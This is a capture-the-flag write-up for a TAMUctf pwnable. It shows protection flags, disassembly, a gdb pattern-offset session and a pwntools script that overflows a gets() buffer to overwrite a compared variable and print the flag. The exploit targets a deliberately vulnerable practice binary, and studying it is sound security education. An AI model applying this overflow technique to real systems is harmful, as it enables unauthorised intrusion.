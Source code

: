 ```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

This challenge is a simple pwnable that requires us to supply a secret password.  If we start the program we're greeted by the following message, which then awaits input.

```
This is a super secret program
Noone is allowed through except for those who know the secret!
What is my secret?
```

If we test this for a buffer-overflow, we find that in fact it is exploitable to a classic buffer overflow, but as everything has been written within the `main` function, we won't overwrite EIP.  Instead we'll overwrite the stack-pointer.
```
Invalid $SP address: 0x4129413d
```
This makes our task much more difficult, so it's likely this isn't the intended method.  Instead we'll open it up in a disassembler:

```gdb
|           0x080485ff      e8ecfdffff     call sym.imp.puts           ; int puts(const char *s)
|           0x08048604      83c410         add esp, 0x10
|           0x08048607      c745f4000000.  mov dword [local_ch], 0
|           0x0804860e      83ec0c         sub esp, 0xc
|           0x08048611      8d45dd         lea eax, dword [local_23h]
|           0x08048614      50             push eax
|           0x08048615      e8b6fdffff     call sym.imp.gets           ; char*gets(char *s)
|           0x0804861a      83c410         add esp, 0x10
|           0x0804861d      817df411ba07.  cmp dword [local_ch], 0xf007ba11 ; [0xf007ba11:4]=-1
|       ,=< 0x08048624      7507           jne 0x804862d
|       |   0x08048626      e820ffffff     call sym.print_flag
```

The offending function is here.   It's looking for 0xf007ba11 in our input.  This isn't a direct comparison with our input however.  If we input this directly into our input, it will still fail.  I imagine it's possible to work this out from the disassembly, but let's just insert a breakpoint and work it out using a pattern:
```
gdb-peda$ break *0x0804861d
Breakpoint 1 at 0x804861d
gdb-peda$ pattern create 50
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA'
gdb-peda$ r
Starting program: /root/Desktop/tamuctf/pwn1 
This is a super secret program
Noone is allowed through except for those who know the secret!
What is my secret?
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA
```
Our program will pause at the comparison.
```
=> 0x804861d <main+107>:	cmp    DWORD PTR [ebp-0xc],0xf007ba11
```
So we examine the memory and calculate the offset, remembering that it's a little-endian system:
```
gdb-peda$ x/4x $ebp-0xc
0xffffd37c:	0x41	0x28	0x41	0x41
gdb-peda$ pattern offset 0x41412841
1094789185 found at offset: 23
```
So we have to insert the value at position 23.  See my solution below:
```python
from pwn import * 

r = remote('pwn.ctf.tamu.edu', 4321) 
message = 'A'*23+p32(0xf007ba11)+'\n'
r.sendafter('What is my secret?', message) 
print r.recvline_contains('gigem') 
```
Run it, and we get our flag:
```bash
root@kali:~/Desktop/tamuctf# python pwn1.py
[+] Opening connection to pwn.ctf.tamu.edu on port 4321: Done
gigem{H0W_H4RD_1S_TH4T?}
[*] Closed connection to pwn.ctf.tamu.edu port 4321
```

